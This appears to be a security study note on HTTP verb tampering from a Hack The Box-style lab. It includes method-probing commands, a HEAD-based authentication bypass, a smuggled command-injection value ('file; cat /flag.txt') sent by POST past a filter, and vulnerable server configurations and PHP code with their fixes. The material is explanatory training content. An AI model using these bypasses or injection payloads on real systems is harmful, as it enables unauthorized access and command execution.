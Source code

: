 ### Content
* [[#Overview]]
* [[#HTTP Verbs]]
* [[#Check allowed methods by a server]]
* [[#Scenarios]]
	* [[#Bypassing Basic Authentication]]
	* [[#Bypassing Security Filters]]
* [[#Verb Tampering Prevention]]
	* [[#Insecure Configuration]]
	* [[#Insecure Coding]]
---
## Overview
[HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)
- **Cause**: HTTP Verb Tampering occurs when an application has inconsistent or incomplete access control checks across different HTTP methods. For example, a resource may have proper authorization checks for `POST` requests but not for `PUT` or `DELETE` requests.
- **Exploitation**: Attackers send requests with unexpected or modified HTTP verbs (e.g., using `PUT` or `DELETE` instead of `GET` or `POST`) to interact with resources in unintended ways. For example, an attacker might change a `GET` request to `DELETE` to attempt deleting data or bypass access restrictions.
- **Impact**:
    - Unauthorized Data Modification
    - Privilege Escalation
    - Information Disclosure
- **Prevention**:
    - Consistent Access Control: Ensure that authorization checks are applied uniformly across all HTTP methods for each resource.
    - Allow Only Required Verbs: Restrict endpoints to allow only the HTTP verbs necessary for their functionality.
    - Server-Side Validation: Validate requests server-side based on user roles and permissions, regardless of HTTP verb.
---
## HTTP Verbs

| Method                                                                         | Description                                                                                                |
| ------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------- |
| [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET)         | Requests a representation of the specified resource                                                        |
| [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)       | Asks for a response identical to a `GET` request, but without a response body                              |
| [`OPTIONS`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) | Shows different options accepted by a web server, like accepted HTTP verbs                                 |
| [`TRACE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE)     | Performs a message loop-back test along the path to the target resource                                    |
| [`PUT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PUT)         | Writes the request payload to the specified location                                                       |
| [`DELETE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/DELETE)   | Deletes the specified resource                                                                             |
| [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST)       | Submits an entity to the specified resource, often causing a change in state or side effects on the server |
| [`PATCH`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PATCH)     | Applies partial modifications to a resource                                                                |
| [`CONNECT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/CONNECT) | Establishes a tunnel to the server identified by the target resource                                       |

---
## Check allowed methods by a server
``` bash
k1ng0a21r@htb[/htb]$ curl -i -X OPTIONS http://SERVER_IP:PORT/

HTTP/1.1 200 OK
Date: 
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET
Content-Length: 0
Content-Type: httpd/unix-directory
```
Script for automation:
``` bash
#!/bin/bash
for webservmethod in GET POST PUT TRACE CONNECT OPTIONS PROPFIND;
do
printf "$webservmethod " ;
printf "$webservmethod / HTTP/1.1\nHost: $1\n\n" | nc -q 1 $1 80 | grep "HTTP/1.1"
done
```
Usage:
``` bash
k1ng0a21r@htb[/htb]$ ./script 123.1.3.4
GET HTTP/1.1 200 OK
POST HTTP/1.1 200 OK
PUT HTTP/1.1 200 OK
TRACE HTTP/1.1 200 OK
CONNECT HTTP/1.1 400 Bad Request
OPTIONS HTTP/1.1 200 OK
PROPFIND HTTP/1.1 200 OK
```

---
## Scenarios
### Bypassing Basic Authentication
* `401 Unauthorized`
``` HTTP
GET /admin/reset.php? HTTP/1.1
```
* `Accepted`
``` HTTP
HEAD /admin/reset.php? HTTP/1.1
```
### Bypassing Security Filters
* Before HTTP verb tampering
``` HTTP
GET /index.php?filename=file%3b+cat+/flag.txt+ HTTP/1.1
....[SNIP]
```
Results on response:
``` HTML
h4><a href='test'>test</a></h4></li></ul>Malicious Request Denied!</ul>
```
* After HTTP verb tampering
``` HTTP
POST /index.php HTTP/1.1
...[SNIP]
filename=file%3b+cat+/flag.txt+
```
Result on response:
``` HTML
<h4><a href='test'>test</a></h4></li></ul>HTB{b3_v3rb_c0n51573n7}</ul>
```
---
## Verb Tampering Prevention
### Insecure Configuration
* `Apache` Vulnerable configurations.
 Located in the site configuration file (e.g. `000-default.conf`), or in a `.htaccess`.
``` XML
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd
    <Limit GET>
        Require valid-user
    </Limit>
</Directory>
```
the `Require valid-user` setting will only apply to `GET` requests, leaving the page accessible through other methods.
* `Tomcat` Vulnerable configurations.
  Located in the `web.xml` file for a certain Java web application.
``` XML
<security-constraint>
    <web-resource-collection>
        <url-pattern>/admin/*</url-pattern>
        <http-method>GET</http-method>
    </web-resource-collection>
    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```
* `ASP.NET` Vulnerable configurations.
  Located in the `web.config` file of a web application.
``` XML
<system.web>
    <authorization>
        <allow verbs="GET" roles="admin">
            <deny verbs="GET" users="*">
        </deny>
        </allow>
    </authorization>
</system.web>
```
* If we want to specify a single method, we can use safe keywords:
	* `LimitExcept` in Apache 
	* `http-method-omission` in Tomcat
	* `add`/`remove` in ASP.NET
* We should generally `consider disabling/denying all HEAD requests` unless specifically required by the web application.
### Insecure Coding
Infected code
``` PHP
if (isset($_REQUEST['filename'])) {
    if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
        system("touch " . $_REQUEST['filename']);
    } else {
        echo "Malicious Request Denied!";
    }
}
```
* The code checks `$_REQUEST['filename']` but validates `$_POST['filename']`. An attacker can bypass the validation by sending the malicious input through `$_GET`.
* The fix would be to consistently use only `$_POST` for both validation and usage
---